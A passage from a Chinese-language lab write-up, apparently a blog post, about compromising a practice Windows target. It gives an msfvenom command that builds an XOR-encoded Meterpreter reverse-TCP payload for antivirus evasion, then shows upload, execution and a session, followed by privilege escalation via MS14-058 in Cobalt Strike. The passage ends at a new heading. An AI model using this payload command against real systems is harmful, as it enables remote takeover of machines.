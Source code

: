 **生成一个 msf 的木马，做免杀上线吧**



```


|  | msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.111.10 LPORT=4444 -e x64/xor_dynamic -f exe -o payload.exe |
| --- | --- |


```

![image-20240926135542663](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184040164-976802328.png)



> 用 msf 的参数做简单的混淆，这是靶机，他只是真实环境的抽象，不可能说让你去花很长的时间，做一个真正的免杀


上传


![image-20240926135658950](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039323-1892749694.png)



> 这里反弹 shell 的端口和 msf 木马的监听端口冲突了，切换了 nc 的监听端口


执行


![image-20240926135759111](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039018-283912139.png)


![image-20240926135832803](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039378-157302917.png)


成功获得了 meterpreter


## 五、提权


### 1）cs 上提权


cs 上就比较简单了，直接利用梼杌（taowu）插件中的，权限提升模块就可以完成提权。


![image-20240926141520810](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039746-1820836536.png)
一个一个点击，点到 `MS-14-058` 时，成功提权


![image-20240926141827335](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039130-1129690926.png)


### 2）msf 提权
